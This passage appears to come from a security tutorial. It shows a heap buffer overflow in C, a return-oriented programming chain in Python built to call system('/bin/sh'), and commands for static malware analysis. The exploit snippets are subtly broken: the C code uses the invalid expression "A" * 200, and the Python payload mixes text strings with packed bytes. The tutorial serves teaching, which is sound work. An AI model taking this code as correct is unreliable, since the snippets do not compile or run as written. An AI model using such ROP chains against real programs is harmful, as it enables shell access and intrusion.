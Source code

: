 **2. Heap-Based Buffer Overflow**

**Heap Exploitation Concepts:**
```c
// Vulnerable heap allocation
#include <stdlib.h>
#include <string.h>

int main() {
    char *buffer1 = malloc(100);
    char *buffer2 = malloc(100);
    
    // Overflow buffer1 into buffer2's metadata
    strcpy(buffer1, "A" * 200);  // Overflows into heap metadata
    
    free(buffer1);
    free(buffer2);  // Can be exploited due to corrupted metadata
    return 0;
}
```

**3. Return-Oriented Programming (ROP)**

**ROP Chain Construction:**
```python
# ROP gadget finding with ropper
# ropper --file vulnerable_binary --search "pop rdi"

# Example ROP chain
rop_chain = struct.pack("<Q", 0x400686)  # pop rdi; ret
rop_chain += struct.pack("<Q", 0x601030)  # address of "/bin/sh"
rop_chain += struct.pack("<Q", 0x400560)  # system() function

# Full exploit with ROP
payload = "A" * offset_to_ret
payload += rop_chain
```

#### Malware Analysis and Detection

**1. Static Analysis Techniques**

**File Analysis:**
```bash
# File information
file malware_sample
hexdump -C malware_sample | head -20
strings malware_sample

# PE analysis (Windows)
pecheck malware_sample.exe
pestudio malware_sample.exe

# ELF analysis (Linux)
readelf -h malware_sample
objdump -d malware_sample
```
